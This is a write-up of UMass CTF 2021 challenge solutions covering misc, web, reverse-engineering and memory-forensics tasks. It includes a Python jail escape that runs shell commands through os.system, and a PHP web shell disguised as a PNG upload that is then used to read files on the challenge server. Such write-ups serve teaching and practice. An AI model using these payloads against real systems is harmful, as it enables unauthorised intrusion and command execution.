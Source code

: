 # UMass CTF 2021

## misc
### Discord

Join their discord server https://discord.gg/EhBJhbDcjc you can find the flag in
the description of the general channel.

Flag: `UMASS{discord_is_better_than_irc_change_my_mind}`

### Scan Me

In this challenge, we get an XCF file which apparently is used in the image
editing software GIMP. So we install gimp and open the file in it. There are
two layers in the image. After hiding the first layer we see a QR code under it
which is slightly broken. I just copied one of the big corner squares and it
worked.

![](qr_gimp.png)

Flag: `UMASS{QR-3Z-m0d3}`

### ekrpat

It is a python jail in which we only get one chance for input. The first garbled
text is written using a dvorak keyboard mapped to qwerty. It is simply asking us
to type 'dvorak' for the first prompt and our payload in the second.

```
$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')
-snip-
flag
-snip-
```

```
$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag')
UMASS{dvorak_rules}
```

Flag: `UMASS{dvorak_rules}`


## web
### Hermit - Part 1

We craft and upload a special file called `shell.png`:

```
ÿØÿà
[pre]
&lt;?php passthru($_GET['c']); ?&gt;
[/pre]
```

Then we simply go around the filesystem looking for the flag using the c param:

```
http://104.197.195.221:8086/show.php?filename=oUVGBv&c=ls%20-l%20/home/hermit/
-r-------- 1 hermit hermit 42 Mar 26 02:50 /home/hermit/userflag.txt

http://104.197.195.221:8086/show.php?filename=oUVGBv&c=cat%20/home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### PikCha

In this challenge, we are given a link to a web page in which an image of four
pokemons appears and we need to enter their pokemon index number in the text box
below separated by spaces. Luckily for us, the answer is already given as part
of the cookie we receive.

I wrote a python script to automate this for us since there are 500 of such
images that we need to successfully answer and decoding and going about it
manually would take a lot of time.

```
import requests
import base64
import re

s = requests.Session() 
r = s.get('http://104.197.195.221:8084/')

for i in range(500):
    a = base64.b64decode(r.cookies['session'].split('.')[0] + '===').decode()
    f = re.findall('\[(.*)\]', a)[0]
    l = f.split(',')
    r = s.post('http://104.197.195.221:8084/', data = {'guess': ' '.join(l)})
    print(r.text)
```

Flag: `UMASS{G0tt4_c4tch_th3m_4ll_17263548}`

### Heim

In this challenge, we can "register" on the given website with our Viking name.
After that we get an authorization JWT. Taking a hint from BEARER written on the
home page, I inserted the JWT in the HTTP request to the home page as part of
the Authorization: Bearer token header.

This redirects us to a another page /heim in which we get the entire list of
endpoints. One of those endpoints is /flag. When we try to visit flag with our
own account, it says that only AllFather Odin is allowed here. So we go back to
the registration and register as Odin. Now if we put the JWT in the bearer and
visit the flag page, we are granted access.

Flag: `UMASS{liveheim_laughheim_loveheim}`

### Hermit - Part 2

```
$ nc 34.121.84.161 8087
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
^C
```


## rev
### easteregg

We get an ELF 64-bit binary. It is an adventure game. After decompiling it we
see that there is a special input command "jhiezetfmvirlnjfbobk" which when
inserted will set a variable to 1.

```
else if ( !strcmp(s1, "jhiezetfmvirlnjfbobk") )
{
  JHIEZETFMVIRLNJFBOBK = 1;
}
```

When this variable is set, the following code will run:

```
if ( JHIEZETFMVIRLNJFBOBK )
{
  for ( i = 0; i <= 34; ++i )
    putchar(COJASZQHPZXKLAPHRHOK[i] ^ LHEIBZNXEKQSAPHHUWTQ[i]);
  putchar(10);
}
```

I wrote a simple python script to XOR the flag, instead of figuring out how to
do it in the game:

```
x = [ 0x12, 0x18, 0x08, 0x0A, 0x10, 0x37, 0x37, 0x66, 0x28,
        0x17, 0x78, 0x60, 0x67, 0x29, 0x18, 0x26, 0x7, 0x2B,
        0x37, 0x28, 0x0B, 0x35, 0x76, 0x37, 0x20, 0x11, 0x2F,
        0x37, 0x24, 0x64, 0x37, 0x2A, 0x7A, 0x3E, 0x35 ]
y = 'GUIYCLZVEHIPWBGOXHVFTGEVDNNDWWZHKGH'


s = ''
for i,j in zip(x,y):
    s += chr(i^ord(j))

print(s)
```

Flag: `UMASS{m0m_100k_i_can_r3ad_ass3mb1y}`

## forensices
### notes

Here we get a memdump of some Windows machine. We determine the profile using
volatility's imageinfo function:

```
$ ./volatility -f image.mem imageinfo
-snip-
Suggested Profile(s) : Win7SP1x64
-snip-
```

Then we take a screenshot:

```
$ ./volatility -f image.mem  --profile=Win7SP1x64 --dump-dir . screenshot
```

![](session_1.WinSta0.Default.png)

We see that notepad is open with a file `passwords.txt` so we'll dump notepad's
process memory and see if we can find the flag there.

```
$ ./volatility -f image.mem --profile=Win7SP1x64 pslist | grep notepad
0xfffffa8000dd0060 notepad.exe            2696   2288      4      309      1      0 2021-03-20 17:59:34 UTC+0000

$ ./volatility -f image.mem --profile=Win7SP1x64 memdump --dump-dir . -p 2696
```

Once we have the process dump, we can grep for the flag:

```
$ strings -e l ./2696.dmp | grep "UMASS" -B 10 -A 10 | vim -
```

Flag: `UMASS{$3CUR3_$70Rag3}`

## chains

Collatz problem
